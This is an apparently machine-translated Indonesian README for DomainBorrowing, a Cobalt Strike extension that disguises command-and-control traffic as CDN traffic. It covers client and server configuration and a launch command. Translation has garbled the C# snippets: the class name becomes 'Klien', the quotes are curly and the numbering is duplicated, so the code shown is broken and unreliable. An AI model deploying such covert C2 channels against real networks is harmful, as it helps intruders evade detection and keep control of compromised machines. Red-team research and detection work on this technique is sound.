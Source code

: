 # PeminjamanDomain

Peminjaman Domain adalah metode baru untuk menyembunyikan lalu lintas  menggunakan CDN. Ini pertama kali dipresentasikan di Blackhat Asia 2021 oleh [Junyu Zhou](https://twitter.com/md5_salt) dan Tianze Ding. Anda dapat menemukan slide presentasi [di sini](https://www.blackhat.com/asia-21/briefings/schedule/#domain-borrowing-catch-my-c-traffic-if-you-can-22314) dan [di sini](https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf).

DomainBorrowing dibuat sebagai bagian dari magang di Tim Merah [NVISO Security](https://nviso.eu/en). Ikuti pekerjaan mereka di [blog mereka](https://blog.nviso.eu) dan [Twitter](https://twitter.com/NVISO_Labs).

DomainBorrowing adalah sebuah ekstensi untuk Cobalt Strike yang ditulis dalam bahasa C# menggunakan [Spesifikasi C2 Eksternal] Cobalt Strike (https://www.cobaltstrike.com/help-externalc2). Ekstensi ini didasarkan pada pustaka [ExternalC2](https://twitter.com/ryhanson) milik [Ryan Hanson](https://github.com/ryhanson/ExternalC2) dan [Covenant PoC](https://github.com/Dliv3/DomainBorrowing) yang disediakan dalam slide Blackhat Asia 2021.

Saya menulis [blogpost](https://cerbersec.com/2021/05/18/domain-borrowing.html) tentang hal itu.

## Client
Proyek ClientC2 bertanggung jawab untuk menyambung ke CDN dan meminta stager dari Server. Proyek ini mengelola komunikasi antara Beacon dan ServerC2.

Konfigurasi untuk klien dilakukan di `Program.cs`. Klien membutuhkan 4 parameter:
1. domain atau alamat ip untuk mencapai server tepi CDN
2. SNI
3. Port opsional untuk berkomunikasi dengan CDN, port default adalah 443
4. 4. Tidur opsional dalam milidetik di antara pesan, standarnya adalah 60 detik

```csharp
Klien klien = new Klien(“target.domain.or.ip.address.here”, “target.sni.here”, 443, 60000);
```

## Server
Proyek Server bertanggung jawab untuk meneruskan komunikasi antara CDN dan Teamserver Cobalt Strike melalui soket ExternalC2.

Konfigurasi untuk server dilakukan di `SocketSettings.cs`. Tentukan alamat dan port pendengar ExternalC2 Cobalt Strike di sini.

```csharp
public SocketSettings()
{
    IpAddress = “127.0.0.1”;
    Port = “2222”;
}
```

Luncurkan server dengan: `sudo dotnet run --url http://127.0.0.1:80/`. Anda dapat menyesuaikan IP dan port sesuai dengan keinginan Anda dan mengonfigurasi CDN Anda dengan tepat.

## Masalah-masalah yang diketahui

* Server saat ini bergantung pada Client, jadi pastikan untuk menyalin proyek Client sebelum menjalankan Server.
